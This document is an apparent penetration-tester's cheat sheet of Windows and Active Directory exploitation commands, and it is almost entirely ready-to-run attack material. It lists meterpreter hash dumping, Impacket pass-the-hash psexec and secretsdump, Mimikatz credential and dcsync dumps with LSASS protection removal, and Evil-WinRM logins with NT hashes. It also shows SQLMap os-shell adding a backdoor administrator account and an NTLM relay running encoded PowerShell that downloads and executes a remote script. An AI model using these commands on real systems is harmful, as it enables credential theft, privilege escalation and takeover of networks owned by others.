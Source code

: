 # Cheat Sheet - Exploitations and Shell

## Table of Content

* [Metasploit](#Metasploit)
* [Impacket](#Impacket)
* [Mimikatz](#Mimikatz)
* [Evil-WinRM](#Evil)
* [SQLMap](#SQLMap)
* [Relay Hash](#Relay)
* [PrintSpoofer](#Spoofer)
* [PSSession](#Session)
* [PsExec](#Exec)

### Metasploit<a name="Metasploit"></a>

```bash
auxiliary/scanner/portscan/tcp
exploit/multi/script/web_delivery
exploit/windows/local/bypassuac_fodhelper
post/windows/gather/credentials/enum_laps

meterpreter > load powershell
meterpreter > load incognito
meterpreter > load kiwi
meterpreter > hashdump

meterpreter > execute -H -f notepad
Process 3400 created.
meterpreter > migrate 3400
```

### Impacket<a name="Impacket"></a>
```bash
# Normal Usage
python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@dc03.sinhack.com -hashes "aad3b435b51404eeaad3b435b51404ee:5f3421ca3b673adfdc2418f368ca3760" -target-ip 192.168.x.x
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py sinhack.com/administrator@dc01.dev.sinhack.com -hashes "aad3b435b51404eeaad3b435b51404ee:0264d5b0a74d30f13f1fec243e8ac3cb" -target-ip 172.16.10.12 -dc-ip 172.16.10.11
proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py v0lk3n@sinhack.com -target-ip 172.16.x.x

# With Kerberos Authentication
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py SINHACK.COM/v0lk3n@dc01.sinhack.com -k -no-pass -debug
proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py sinhack.com/v0lk3n@DC01.SINHACK.COM -k -no-pass
```

### Mimikatz<a name="Mimikatz"></a>

```bash
mimikatz # privilege::debug

mimikatz # sekurlsa::logonpasswords

mimikatz # lsadump::dcsync /domain:sinhack.com /user:krbtgt
mimikatz # lsadump::dcsync /domain:sinhack.com /user:Administrator
mimikatz # lsadump::dcsync /domain:sinhack.com /user:sinhack\Administrator

#Disable the LSA protection and dump the credentials.
## Upload the mimidrv.sys to the victim and load the driver with Mimikatz
mimikatz # !+

## Disable the PPL protection for LSASS :
mimikatz # !processprotect /process:lsass.exe /remove

```

### Evil WinRm<a name="Evil"></a>

```bash
sudo gem install evil-winrm

proxychains evil-winrm -i 172.16.x.x -u v0lk3n -H NT_HASH
proxychains evil-winrm -i 172.16.x.x -u v0lk3n -H 6DB6CFDF45964A02A80E85A7AB9F4314
```

### SQLMap<a name="SQLMap"></a>

```bash
sqlmap -u 'TARGET_URL' --batch --dbs
sqlmap -u 'TARGET_URL' --os-shell --flush-session

os-shell> net user /add v0lk3n Fucked123!
do you want to retrieve the command standard output? [Y/n/a] n
os-shell> net localgroup administrators v0lk3n /add
do you want to retrieve the command standard output? [Y/n/a] n
```

### Relay Hash<a name="Relay"></a>

```bash
sudo responder -I tun0
sudo proxychains impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.x.x -c 'powershell -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA5AC4AMQAxADIAOgA4ADAAOAAwAC8AcABzAHIAdQBuAG4AZQByAC4AdAB4AHQAJwApAA=='
```

### PrintSpoofer<a name="Spoofer"></a>

```bash
PrintSpoofer64.exe -i -c cmd.exe
```

###PSSession<a name="Session"></a>

```bash
Enter-PSSession -Computer secret01.dev.sinhack.com
```

### PsExec<a name="Exec"></a>

```bash
PsExec64.exe \\jump09.ops.comply.com cmd
```
